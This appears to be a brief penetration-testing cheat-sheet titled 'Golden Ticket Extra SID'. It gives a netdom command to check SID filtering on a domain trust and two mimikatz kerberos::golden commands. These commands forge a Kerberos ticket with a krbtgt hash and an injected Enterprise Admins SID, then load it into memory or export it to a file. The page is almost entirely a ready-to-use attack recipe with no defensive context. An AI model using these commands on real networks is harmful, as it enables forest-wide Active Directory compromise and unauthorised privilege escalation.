 # Golden Ticket Extra SID
## Check SID Filtering
```
netdom trust example.com /domain:admin.example.com /quarantine
```
## Create Golden Ticket
```powershell
#load memory
kerberos::golden /user:pwn /domain:example.com /sid:S-1-5-21-2032401531-514583578-4118854891 /krbtgt:7c1865e6e30e54e8845aad091b0ff441 /sids:S-1-5-21-1135011135-3178090508-3111492220-519 /ptt
# export ticket
kerberos::golden /user:pwn /domain:example.com /sid:S-1-5-21-2032401531-514583578-4118854891 /krbtgt:7c1865e6e30e54e8845aad091b0ff441 /sids:S-1-5-21-1135011135-3178090508-3111492220-519 /ticket:pwn.kirbi
```
